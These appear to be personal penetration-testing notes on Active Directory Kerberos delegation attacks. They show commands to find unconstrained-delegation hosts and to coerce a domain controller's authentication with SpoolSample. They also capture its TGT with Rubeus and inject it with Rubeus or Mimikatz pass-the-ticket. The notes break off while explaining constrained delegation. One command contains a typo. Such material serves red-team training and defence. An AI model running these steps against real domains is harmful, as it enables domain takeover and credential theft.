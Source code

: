 - AD Module -

```bash
Get-ADComputer -Filter {TrustedForDelegation -eq $true} -Properties trustedfordelegation,serviceprincipalname,description
```

![[Pasted image 20230211212609.png]]

==Note== - Domain Controller will always have Unconstrained Delegation enabled.

#### <mark style="background: #3D7EFFA6;">Abuse</mark> -

Once you have find the accounts with Unconstrained delegation and have access to it you can use Printer Bug to force authentication  and capture the users TGT with Rubeus-

- We can capture the TGT of DC by using Rubeus on machine with unconstrained delegation :

[Rubeus]((https://github.com/GhostPack/Rubeus)

```bash
.\Rubeus.exe monitor /interval:5 /nowrap
```

- MS-RPRN to force Authentication -

[SpoolSample](https://github.com/leechristensen/SpoolSample)

```bash
.\MS-RPRN.exe \\FQDNofDC \\FQDNofUnconstrainedDelegation
```


- Copy the base64 encoded TGT, remove extra spaces and use it on the attacker machine:

```bash
.\Rubeus.exe ptt /tikcet:
```

Or

• Use Invoke-Mimikatz:

```bash
[IO.File]::WriteAllBytes("C:\AD\Tools\DC.kirbi", [Convert]::FromBase64String("ticket_from_Rubeus_monitor"))
```

```bash
Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\DC.kirbi"'
```

## # `Constrained Delegation` -

- Constrained Delegation when enabled on a service account allows ==access only to a specified services on specified computers as a user==.

- To impersonate the user ==Service for User(S4u)== extension is used which provides two extensions:

1. <mark style="background: #3D7EFFA6;">Service for User to Self (S4U2self)</mark> - Allows a service to obtain a forwardable TGS to itself on behalf of a user with just the user principal name without supplying a password.The service account must have the ==TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION(T2A4D)== User Account Control Attrribute.
